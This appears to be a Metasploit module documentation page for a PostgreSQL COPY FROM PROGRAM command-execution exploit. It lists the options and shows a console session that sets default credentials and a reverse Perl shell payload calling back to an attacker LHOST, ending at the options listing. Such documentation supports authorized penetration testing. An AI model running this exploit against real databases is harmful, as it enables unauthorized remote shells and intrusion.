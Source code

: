   **DUMP_TABLE_OUTPUT**

  If enabled this option will perform a select statement on the created table before it is deleted. This can be used for 
  debugging if there are problems with a command being executed. 
  
  **DATABASE**
  
  Name of the database to connect to
  
  **USERNAME**
  
  A valid username that allows access to the database
  
  **PASSWORD**
  
  A valid password that allows access to the database
  
## Scenarios

### Exploiting PostgreSQL 11.2 on Linux Ubuntu 18.04

    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set DATABASE postgres
    DATABASE => postgres
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set USERNAME postgres
    USERNAME => postgres
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set PASSWORD postgres
    PASSWORD => postgres
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set payload cmd/unix/reverse_perl
    payload => cmd/unix/reverse_perl
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set LHOST 192.168.0.18
    LHOST => 192.168.0.18
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS 192.168.0.25
    RHOSTS => 192.168.0.25
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show options

    Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       COMMAND                     no        Send a custom command instead of a payload, use with powershell web delivery against windows
       DATABASE   postgres         yes       The database to authenticate against
       PASSWORD   postgres         no        The password for the specified username. Leave blank for a random password.
       RHOSTS     192.168.0.25     yes       The target address range or CIDR identifier
       RPORT      5432             yes       The target port (TCP)
       TABLENAME  msftesttable     yes       A table name that doesnt exist(To avoid deletion)
       USERNAME   postgres         yes       The username to authenticate as


    Payload options (cmd/unix/reverse_perl):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  192.168.0.18     yes       The listen address (an interface may be specified)
       LPORT  4456             yes       The listen port
